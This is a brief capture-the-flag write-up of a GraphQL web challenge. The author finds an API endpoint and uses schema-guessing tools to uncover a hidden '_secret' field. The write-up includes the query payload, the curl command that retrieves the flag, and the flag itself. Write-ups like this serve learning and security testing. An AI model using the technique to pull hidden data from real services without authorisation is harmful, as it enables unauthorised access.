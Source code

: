  # GraphiCS
* Level: None 
* Technique: GraphQL 
* Tool: https://github.com/nikitastupin/clairvoyance/
* Description: What is your problem?
How didn't you approve my beautiful innovative page on your "precious" CTF?!
It's all done, maybe I can just add some graphics.
# Solution
* In this challenge only main page 
![](https://i.imgur.com/ZAS3dnr.png)
* While i searching techniques about GraphQL i found a blog <https://book.hacktricks.xyz/pentesting/pentesting-web/graphql> explained a how to exploit GraphQL 
* My target found a endpoint of web i use `dirsearch` found endpoint 
![](https://i.imgur.com/XM7WGtD.png)
* Well, I found endpoint of web `https://graphics.chal.intentsummit.org/api/v1/`
![](https://i.imgur.com/Li8L9wQ.png)
* I used tool for get a payload
```text
{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery { _secret { flag } }\n"}
```
* I used a command curl of endpoint web for get flag ^_^
```bash
 curl -k --request POST \
  --header 'content-type: application/json' \
  --url 'https://graphics.chal.intentsummit.org/api/v1/' \
  --data '{"operationName":"ExampleQuery","variables":{},"query":"query ExampleQuery { _secret { flag } }\n"}
'
{"data":{"_secret":[{"flag":"INTENT{d1d_y0u_m34n_flag}"}]}}
```
* FLAG `INTENT{d1d_y0u_m34n_flag}`

